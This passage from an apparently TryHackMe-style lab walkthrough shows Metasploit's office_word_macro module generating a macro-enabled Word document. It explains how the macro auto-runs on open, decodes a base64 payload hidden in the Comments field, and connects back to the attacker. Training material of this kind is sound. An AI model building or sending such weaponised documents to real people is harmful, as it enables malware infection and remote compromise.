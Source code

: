    \*\*DisablePayloadHandler: True   (no handler will be created!)\*\*  
  

Exploit target:

   Id  Name  
   --  ----  
   0   Microsoft Office Word on Windows  
  

View the full module info with the info, or info -d command.

msf6 exploit(multi/fileformat/office\_word\_macro) > exploit

\[\*\] Using template: /opt/metasploit-framework/embedded/framework/data/exploits/office\_word\_macro/template.docx  
\[\*\] Injecting payload in document comments  
\[\*\] Injecting macro and other required files in document  
\[\*\] Finalizing docm: msf.docm  
\[+\] msf.docm stored at /root/.msf4/local/msf.docm  
msf6 exploit(multi/fileformat/office\_word\_macro) > exit

As you can see, the Word document with the embedded macro was created and stored in `/root/.msf4/local/msf.docm`.

### The Created Macro-Enabled Document

We mentioned earlier how to create a macro within an MS Word document. You might be interested to see the content of the file created by `msfconsole`. In the screenshot below, we can see the different procedures and functions that make up this macro. **Note:** The AttackBox doesn’t have MS Office installed, so for this section you only have to read along.

1.  `AutoOpen()` triggers the macro automatically when a Word document is opened. It searches through the document’s properties, looking for content in the “Comments” field. The data saved using `base64` encoding in the Comments field is actually the payload.
2.  `Base64Decode()` converts the payload to its original form. In this case, it is an executable MS Windows file.
3.  `ExecuteForWindows()` executes the payload in a temporary directory. It connects to the specified attacker’s system IP address and port.

![](https://cdn-images-1.medium.com/max/800/0*YrdvUdOI2bQv0CVR.png)

The **Comments** field is shown in the screenshot below. It is close to 100,000 characters in our case.

![](https://cdn-images-1.medium.com/max/800/0*DKf-N4niPZFtNjOD.png)

If you copy it and save it to a text file, you can convert it to its original executable format using `base64` as shown below. You can notice the size of the files.

AttackBox Terminal

root@AttackBox:~\# base64 -d payload-base64.txt > payload.exe  
root@attackbox:~\# ls -lh  
\-rw-r--r--. 1 root root 97K payload-base64.txt  
\-rw-r--r--. 1 root root 73K payload.exe
